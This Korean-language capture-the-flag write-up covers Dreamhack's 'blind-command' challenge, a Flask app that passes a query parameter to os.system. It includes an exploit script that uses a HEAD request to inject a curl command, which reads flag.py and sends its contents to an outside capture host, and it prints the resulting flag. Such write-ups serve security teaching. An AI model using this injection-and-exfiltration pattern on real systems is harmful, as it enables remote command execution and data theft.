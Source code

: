 https://honey-push-30b.notion.site/Blind-command-76e08da04065483faba45483f45568de

# Blind-command

# 문제 접근

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3afc399b-e22d-4f84-a3c3-739456b947df/Untitled.png)

blind-command 문제의 접속 정보와 문제 설명 및 문제파일을 다운로드 받을 수 있다. app.py 파일을 보면 아래 코드를 볼 수 있다.

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

코드는 복잡하지 않은데 GET 으로 요청을 받으면 매개변수 cmd에 담긴 값을 받는다. 메서드가 GET이 아니라면 이 cmd에 담긴값을 os.system으로 실행한다. 여기서 문제는 페이지가 GET만 허용해주고 있는데 GET으로 요청을 보내면 cmd를 실행시킬 수 없다는 점이다. 

# 문제 풀이

파이썬을 사용하여 보낼 것이므로 GET이 아닌 다른 요청들이 무엇이 있는지 찾아보았다

[https://me2nuk.com/Python-requests-module-example/](https://me2nuk.com/Python-requests-module-example/)

### **Request method**

requests 클래스에서 지원하는 요청 메서드는 `[PUT, GET, POST, HEAD, PATCH, DELETE, OPTIONS]` 메서드가 존재한다. 이 메서드를 하나씩 테스트해보았다.

 

```python
import requests
url=f"http://host3.dreamhack.games:12409"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![not allowed.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f9f3499b-b3ad-48c6-a9cd-3698d9882fb4/not_allowed.png)

POST나 PUT으로 보내면 method가 허용되지 않았기 때문에 405가 오게된다. 하지만 HEAD 방식은 요청이 정상적으로 가는 것을 확인할 수 있었다.

보통 HEAD 방식은 GET 방식이 열려있는 경우 같이 열려있다고한다. HEAD방식은 GET 방식으로 보냈을 때 오는 응답에서 body만 빼고 응답이 온다. 즉 내가 원하는 명령을 실행시킬 수는 있게 되었는데 문제는 그 응답을 보기가 힘들다는 점이다. 그래서 응답 결과를 curl을 통해서 내가 원하는 곳으로 보내고자 했다.

서버를 직접 열기보다는 드림핵에서 제공하는 tools 서비스를 이용하여 이곳에서 생성되는 링크로 curl을 통해 연결한 후 get방식을 통해 flag 값을 전달하는 방식을 선택했다.

이 때 $(cat flag.py)를 하면 FLAG만 오게 된다. 그 이유는 계속 테스트해본 결과 get 방식으로 전달하게 되는 경우 공백 전까지만 전달이 되는 것으로 보인다. 

따라서 공백을 지워주는 명령어인 sed를 이용해서 flag.py의 공백을 지워준 후 grep ‘DH’를 사용해서 curl의 get방식으로 전달해 주었다.

```python
import requests
url=f"http://host3.dreamhack.games:12409?cmd=curl https://qjyfxze.request.dreamhack.games?flag=$(sed 's/ /:/g' flag.py | grep 'DH')"
#
data={
    "cmd":"ls"
    }
#options,get,head
response=requests.head(url)
print(url)
print(response.headers)
```

![캡처.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/31950aab-4684-41af-872c-2be42fb3b52a/%EC%BA%A1%EC%B2%98.png)

FLAG값인 DH{4c9905b5abb9c3eb10af4ab7e1645c23}이 정상적으로 오는 것을 확인할 수 있다.
